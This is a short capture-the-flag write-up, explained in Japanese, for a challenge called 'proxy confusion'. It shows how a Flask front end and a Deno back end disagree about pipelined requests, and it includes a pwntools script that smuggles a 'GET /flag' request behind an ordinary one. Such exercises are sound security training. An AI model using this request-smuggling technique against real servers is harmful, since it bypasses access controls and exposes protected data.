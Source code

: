 # proxy confusion

## Description
Which web server would you like?

## Writeup

同一パケットに複数のリクエストが含まれている場合、Flaskは２つ目を無視するが、Denoは２つ目のリクエストとして扱うことを利用する。

```python
from pwn import *

io = remote("localhost", 4000)
io.send(b"""
GET / HTTP/1.1

GET /flag HTTP/1.1
        """.strip().replace(b"\n", b"\r\n") + b"\r\n\r\n")

r = io.recv()
print(r.decode())
```